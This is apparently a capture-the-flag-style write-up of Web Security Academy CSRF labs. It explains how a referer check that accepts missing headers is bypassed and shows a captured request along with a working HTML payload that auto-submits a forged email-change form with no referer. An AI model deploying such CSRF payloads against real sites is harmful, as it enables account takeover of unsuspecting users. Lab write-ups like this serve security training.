 # CSRF where Referer validation depends on header being present
> This lab's email change functionality is vulnerable to CSRF. It attempts to block cross domain requests but has an insecure fallback.
> 
> To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
> 
> You can log in to your own account using the following credentials: `wiener:peter`

In this lab we're supposed to change the email from the victim. If we log in we and change the email, request will be send like this (I've removed some irelevant headers):

```
POST /my-account/change-email HTTP/1.1
Host: 0acc007a0407b9cdc0166311009f004e.web-security-academy.net
Cookie: session=XQrmFJwOd7sZAGjGr6IlA7Uxx149kezF
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: https://0acc007a0407b9cdc0166311009f004e.web-security-academy.net
Referer: https://0acc007a0407b9cdc0166311009f004e.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
...
Pragma: no-cache
Cache-Control: no-cache
Te: trailers
Connection: close

email=asdd%40normal-user.net
```

Email will be changed, if we however change referrer to our exploit address, we'll see `Invalid referer header`. If we remove referrer header entirely, we'll be able to change the email again.

We can deliver payload as we've done it before, just this time by using `<meta name="referrer" content="no-referrer">` which won't forward the header to the web server in the CSRF request.

```html
<meta name="referrer" content="no-referrer">
<form method="POST" action="https://0acc007a0407b9cdc0166311009f004e.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything@web-security-academy.net">
</form>

<img src=x onerror="document.forms[0].submit();"/>
```

# CSRF with broken Referer validation
> This lab's email change functionality is vulnerable to CSRF. It attempts to detect and block cross domain requests, but the detection mechanism can be bypassed.
> 
> To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
> 
> You can log in to your own account using the following credentials: `wiener:peter`
